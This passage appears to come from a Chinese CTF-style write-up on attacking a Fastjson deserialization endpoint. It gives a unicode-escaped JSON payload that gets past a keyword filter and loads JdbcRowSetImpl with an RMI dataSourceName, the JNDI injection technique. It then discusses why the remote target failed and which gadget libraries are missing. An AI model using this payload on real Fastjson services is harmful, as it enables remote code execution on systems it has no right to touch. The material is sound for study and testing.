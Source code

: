 由于过滤了关键字，可以直接用`hex`​ 跟 `unicode`​去绕过即可，本地尝试打一下

```plain
{"username":{"@\u0074\u0079\u0070\u0065": "java.lang.Class","val":"com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"password":{"@\u0074\u0079\u0070\u0065": "com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"rmi://127.0.0.1:1099/qv9wk6","\u0061\u0075\u0074\u006f\u0043\u006f\u006d\u006d\u0069\u0074":true}}
```

[![](assets/1708870136-f7dce30094bf72a2c5765218eb8a5651.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121381.png)​

但打远程的时候发现就不可以，那么仔细去分析一下，其实会发现有以下几个原因

1.  fastjson 不出网
2.  使用的 jdk 并不是 8u65 而是别的 jdk

‍

首先第一个 打不出网的 fastjson 打`TemplatesImpl`​的话并没有开启私有可访问的参数`Feature.SupportNonPublicField`​,`C3P0`​,`Commons-io`​,`BCEL`​都没有这些依赖，因为依赖非常的清楚只有这些
